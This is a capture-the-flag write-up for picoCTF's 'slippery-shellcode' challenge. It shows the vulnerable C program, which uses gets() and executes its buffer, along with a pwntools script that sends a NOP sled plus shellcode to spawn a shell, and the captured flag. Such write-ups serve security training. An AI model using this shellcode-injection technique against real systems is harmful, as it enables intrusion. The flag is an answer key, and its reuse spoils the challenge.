 # slippery-shellcode - Points: 200
<b>Description : </b>This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_3_68613021756bf004b625d7b414243cd8 on the shell server. Source.<br>
<b>Hints : </b>
# Solved
So we can see there is some vulnerability in code
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```
But sadly, we need to bypass 
```cpp
int offset = (rand() % 256) + 1;
```
to place our payload, to do this we need set script code into <b>NOP</b> or <b>0x90</b>, this the script i use
```python
from pwn import *;
payload = '\x90' * 256 + asm(shellcraft.i386.linux.sh());
p = process('./vuln');
p.sendline(payload);
p.interactive();
```
Execute! and read the flag <b>cat flag.txt</b><br>
Flag : <b>picoCTF{sl1pp3ry_sh311c0d3_de21cb07}</b>
